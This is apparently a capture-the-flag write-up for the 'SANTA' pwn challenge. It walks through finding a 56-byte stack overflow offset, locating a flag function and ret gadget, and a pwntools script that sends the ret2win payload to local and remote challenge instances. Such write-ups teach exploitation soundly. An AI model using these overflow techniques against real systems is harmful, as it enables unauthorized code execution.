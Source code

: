 # SANTA

Challenge author: tomadimitrie

Tell your wish to Santa... it might come true

## Analysis

In this challenge we were given an ELF-64bit named `santa` with no canary, NX enabled, and no PIE.

```
$ file santa; checksec santa  
santa: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=2879273bfbd6a37bf2fb59b81093e32888d50e5c, not stripped
[*] '/home/kali/Documents/TFC CTF/santa'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Let's try to run it

```
$ ./santa 
What are you wishing for?

chicken nugget

```

It seems that the program doesn't do anything. Let's open the program using ida to see what the source code looks like.

#### main function
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 v4; // [rsp+0h] [rbp-30h]
  __int64 v5; // [rsp+8h] [rbp-28h]
  __int64 v6; // [rsp+10h] [rbp-20h]
  __int64 v7; // [rsp+18h] [rbp-18h]
  __int64 v8; // [rsp+20h] [rbp-10h]

  setvbuf(_bss_start, 0LL, 2, 0LL);
  puts("What are you wishing for?\n");
  v4 = 0LL;
  v5 = 0LL;
  v6 = 0LL;
  v7 = 0LL;
  v8 = 0LL;
  __isoc99_scanf("%s", &v4);
  return 0;
}
```

From the source code, there is another function that caught my eyes. It's a `flag` function. Let's take a look.

#### flag
```c
int flag()
{
  return system("cat flag");
}
```

From the main function, it seems that we need to overflow the input and jump into the `flag` function.

First, we could use gdb to create a pattern.
```
$ gdb -q ./santa
Reading symbols from ./santa...
(No debugging symbols found in ./santa)
gdb-peda$ pattern create 64
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAH'
```

Next, run the program and send the pattern.
```
gdb-peda$ r
Starting program: /home/kali/Documents/TFC CTF/santa 
What are you wishing for?

AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAH

Program received signal SIGSEGV, Segmentation fault.
```

From the output above, we can determine which part of our pattern is hitting the return in the main function by examining the `$rsp`.
```
gdb-peda$ x/gx $rsp
0x7fffffffdf68: 0x4841413241416341
gdb-peda$ pattern offset 0x4841413241416341
5206514328315978561 found at offset: 56
```

Nice, we got the offset/padding. Now we need to know the address of `flag` function.
```
gdb-peda$ info func
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x0000000000401030  puts@plt
0x0000000000401040  system@plt
0x0000000000401050  setvbuf@plt
0x0000000000401060  __isoc99_scanf@plt
0x0000000000401070  _start
0x00000000004010a0  _dl_relocate_static_pie
0x00000000004010b0  deregister_tm_clones
0x00000000004010e0  register_tm_clones
0x0000000000401120  __do_global_dtors_aux
0x0000000000401150  frame_dummy
0x0000000000401152  flag
0x0000000000401165  main
0x00000000004011e0  __libc_csu_init
0x0000000000401240  __libc_csu_fini
0x0000000000401244  _fini
```

Lastly, we need to get the return address. So when we overwrite the stack, we could change the instruction to return to flag function. To get the return address, we could use ROPgadget.
```
$ ROPgadget --binary santa | grep "ret"
0x0000000000401099 : add ah, dh ; nop dword ptr [rax + rax] ; ret
0x00000000004010cb : add bh, bh ; loopne 0x401135 ; nop ; ret
0x00000000004011d8 : add byte ptr [rax], al ; add byte ptr [rax], al ; leave ; ret
0x00000000004011d9 : add byte ptr [rax], al ; add cl, cl ; ret
0x0000000000401098 : add byte ptr [rax], al ; hlt ; nop dword ptr [rax + rax] ; ret
0x00000000004011da : add byte ptr [rax], al ; leave ; ret
0x000000000040109e : add byte ptr [rax], al ; ret
0x000000000040109d : add byte ptr [rax], r8b ; ret
0x0000000000401137 : add byte ptr [rcx], al ; pop rbp ; ret
0x00000000004011db : add cl, cl ; ret
0x00000000004010ca : add dil, dil ; loopne 0x401135 ; nop ; ret
0x0000000000401138 : add dword ptr [rbp - 0x3d], ebx ; nop dword ptr [rax + rax] ; ret
0x0000000000401013 : add esp, 8 ; ret
0x0000000000401012 : add rsp, 8 ; ret
0x0000000000401224 : fmul qword ptr [rax - 0x7d] ; ret
0x000000000040109a : hlt ; nop dword ptr [rax + rax] ; ret
0x00000000004011dc : leave ; ret
0x00000000004010cd : loopne 0x401135 ; nop ; ret
0x0000000000401132 : mov byte ptr [rip + 0x2f17], 1 ; pop rbp ; ret
0x00000000004011d7 : mov eax, 0 ; leave ; ret
0x0000000000401162 : nop ; pop rbp ; ret
0x00000000004010cf : nop ; ret
0x000000000040109b : nop dword ptr [rax + rax] ; ret
0x000000000040123d : nop dword ptr [rax] ; ret
0x0000000000401234 : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000401236 : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000401238 : pop r14 ; pop r15 ; ret
0x000000000040123a : pop r15 ; ret
0x0000000000401233 : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000401237 : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000401139 : pop rbp ; ret
0x000000000040123b : pop rdi ; ret
0x0000000000401239 : pop rsi ; pop r15 ; ret
0x0000000000401235 : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000401016 : ret
0x0000000000401062 : retf 0x2f
0x000000000040100d : sal byte ptr [rdx + rax - 1], 0xd0 ; add rsp, 8 ; ret
0x0000000000401245 : sub esp, 8 ; add rsp, 8 ; ret
0x0000000000401244 : sub rsp, 8 ; add rsp, 8 ; ret

```

From the ROPgadget, we only need the one that holds the information of "ret" and the ret address is `0x0000000000401016`

## Exploit

Let's make a solver using python
```python
from pwn import *

offset = 56
flag = 0x0000000000401152
ret = 0x0000000000401016

payload = b""
payload += b"A"*offset
payload += p64(ret)
payload += p64(flag)

s = process("./santa")

print(s.recvline().decode())
s.sendline(payload)
print(s.recvall().decode())

s.close()
```

Now we need to do is just run the program to make sure it works!

![](santa_local.png)

Since it works, lets test on remote server by adding host, port and replacing `s = process("./santa")` to `s = remote(host, port)`
```python
from pwn import *

offset = 56
flag = 0x0000000000401152
ret = 0x0000000000401016

payload = b""
payload += b"A"*offset
payload += p64(ret)
payload += p64(flag)

host = "34.65.54.58"
port = 1340

s = remote(host, port)

print(s.recvline().decode())
s.sendline(payload)
print(s.recvall().decode())

s.close()
```

Now all we need to do is just run the program!
![](santa.png)

Flag: `TFCCTF{A11_I_w4nt_4_Chr15tm4s_i5_y0uuuu}`
